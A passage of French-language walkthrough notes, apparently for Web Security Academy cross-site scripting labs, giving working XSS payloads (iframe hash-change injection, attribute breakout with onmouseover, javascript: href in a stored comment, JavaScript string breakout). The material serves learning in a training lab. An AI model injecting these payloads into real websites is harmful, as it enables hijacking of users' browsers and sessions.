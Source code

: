Aller dans la partie “Go to exploit server” et mettre le payload suivant dans le body : 

    <iframe src="https://0aec002b04b2eb90807295f2009e00e0.web-security-academy.net//#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

Cliquer sur “Store” puis “Deliver exploit to victim”

### Reflected XSS into attribute with angle brackets HTML-encoded

Faire une recherche classique et voir le morceau suivant dans la réponse : 

    <input type=text placeholder='Search the blog...' name=search value="aaa">

La recherche est donc reflétée dans un attribut.
Répéter l’opération et injecter le payload suivant à la place : 

    "onmouseover="alert(1)

Rafraichir la page et passer la souris sur la barre de recherche, le payload est exécuté.

### Stored XSS into anchor href attribute with double quotes HTML-encoded 

Aller sur n’importe quel post et écrire un commentaire.

Voir le morceau suivant dans la nouvelle page : 

    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="a">a</a> | 05 October 2023
    </p>
    <p>AAA</p>

Notre site web est reflété dans un attribut href qui est ajouté sur notre nom.
Répéter l’opération et injecter le payload suivant à la place : 

	javascript:alert(2)

Après retour sur les commentaires, cliquer sur le nom de l’attaquant déclenche le payload.


### Reflected XSS into a JavaScript string with angle brackets HTML encoded

Faire une recherche classique et repérer le morceau suivant dans le code source de la réponse : 

    var searchTerms = 'a';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');

Injecter le payload suivant dans la barre de recherche : 

    a' ; alert(1) ; //


### DOM XSS in document.write sink using source location.search inside a select element

Dans la page de n’importe quel produit, remarquer le morceau suivant : 
